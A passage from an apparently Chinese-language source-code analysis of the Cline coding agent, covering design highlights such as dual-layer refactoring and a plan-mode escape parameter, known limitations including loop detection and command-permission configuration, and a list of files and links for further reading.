**怎么借鉴**：处理"用户输入是 shell 命令"的安全问题时，一定要用真正的 shell parser（如 shell-quote、bash-parser），不要用 regex 或字符串 split。

### 亮点 5：双层架构的演进

老的 Task 类（VSCode 插件）+ 新的 AgentRuntime（SDK）并存，新代码先在边缘做，逐步替代核心。

**为什么聪明**：大型项目重构最难是"维持功能完整 + 同时切换抽象"。Cline 的策略是新旧并存，先用 SDK 服务新的使用场景（CLI、第三方集成），再慢慢把 VSCode 插件迁过去。

**怎么借鉴**：重构大型 codebase 时，宁可双层并存几个版本也别"一刀切重写"——后者几乎必败。让新抽象先服务新需求，老需求慢慢迁。

### 亮点 6：needs_more_exploration 逃生口

接受 LLM 偶尔"半路改主意"的现实，给 plan_mode_respond 加个参数让循环能继续。

**为什么聪明**：纯净的设计常常对 LLM 实际行为太理想化。承认现实 + 提供逃生口比反复教模型守规矩有效。

**怎么借鉴**：设计 Agent 工具协议时，留一两个"我搞错了，请继续"类的参数。LLM 的行为不会 100% 符合你的设计，给它修正空间。

## 局限与坑

### 局限 1：XML 协议的 token 开销

XML 比 JSON 啰嗦，工具描述 + 调用占用 token 多。同等任务 Cline 比 Claude Code 用 native function calling 多消耗约 30-50% input token。

**Workaround**：
- 部分 model 配置支持开启 native function calling（在 model settings 里）
- 用 prompt cache 摊销长 system prompt 的成本

### 局限 2：Task 类 3764 行的复杂度

老代码是上帝对象，加新功能容易踩坑（修一处影响另几处）。新 contributor 学习曲线陡。

**Workaround**：
- 新功能优先在 SDK 层（AgentRuntime）实现
- 老代码主要负责"VSCode UI 集成"，不再扩业务功能

### 局限 3：Loop Detection 只看相邻调用

`consecutiveIdenticalToolCount` 重置条件是"工具或参数变了"。如果 LLM 在 A、B 两个调用间来回切换（A、B、A、B、A、B），LoopDetection 看不到。

**Workaround**：靠 user 的 maxRequestsPerTask 等其他兜底机制。OpenHands 的 alternating pattern 检测能 cover 这种，Cline 没有对应实现。

### 局限 4：CommandPermission 配置门槛

写 glob pattern + 理解 shell operator 不是普通用户能做的。错配置容易导致 Agent 完全不能跑命令或意外放行危险命令。

**Workaround**：
- 用 Cline 提供的 preset（如"safe mode" 预设白名单）
- 在 CI/team 环境用，个人开发场景用 default（无限制 + 弹窗确认）

### 局限 5：双仓库代码的同步成本

修一个端到端功能可能要同时改 `apps/vscode/` 和 `sdk/packages/`。版本依赖、类型同步、测试覆盖都更复杂。

**Workaround**：贡献时先决定属于 SDK 还是 VSCode 层。Cline 的 ARCHITECTURE.md 给了边界判断的指导。

## 延伸阅读

不读源码的人最大的损失是 Cline 的 ARCHITECTURE.md 和 SDK README——比代码注释解释更系统：

- **核心文件**（按推荐阅读顺序）：
  - `apps/vscode/src/core/task/loop-detection.ts` —— 68 行精悍代码，理解 Loop Detection 的最佳起点
  - `apps/vscode/src/core/task/tools/handlers/PlanModeRespondHandler.ts` —— 看 Plan mode 怎么用工具实现，注释里有真实设计教训
  - `apps/vscode/src/core/permissions/CommandPermissionController.ts` —— shell 命令解析的工程化，很多防御性细节
  - `apps/vscode/src/core/task/index.ts:2354` —— `recursivelyMakeClineRequests`，老核心循环
  - `sdk/packages/agents/src/agent-runtime.ts:528` —— `execute()`，新核心循环
  - `apps/vscode/src/core/context/context-management/ContextManager.ts` —— 1295 行的上下文管理

- **官方资料**：
  - [Cline GitHub](https://github.com/cline/cline) —— 主仓库
  - [Cline 文档](https://docs.cline.bot) —— 用户视角
  - `sdk/ARCHITECTURE.md` —— SDK 设计文档（仓库内）

- **相关概念**：
  - 本站 [编程 Agent 通用模式](../vertical/coding-agent) —— 理解 Plan/Act 等通用模式
  - 本站 [Claude Code 源码剖析](./claude-code) —— 对比 native function calling vs XML 两种协议
  - 本站 [Aider 源码剖析](./aider) —— Cline 借鉴了 Aider 的 reflexion 思路
  - 本站 [OpenHands 源码剖析](./openhands) —— 对比 LoopDetection 和 StuckDetector 两种实现

- **对比阅读**：
  - [Continue.dev](https://github.com/continuedev/continue) —— 另一个开源 VSCode Agent，对比"扩展 + 服务端"架构
  - [Roo Code](https://github.com/RooVetGit/Roo-Code) —— Cline fork 演进而来，看分支后的差异化设计

- **基础知识**：
  - [shell-quote 文档](https://github.com/ljharb/shell-quote) —— CommandPermission 的解析库，理解 shell 词法分析
  - [VSCode Extension API](https://code.visualstudio.com/api) —— 理解 Cline 怎么和 IDE 交互的前置
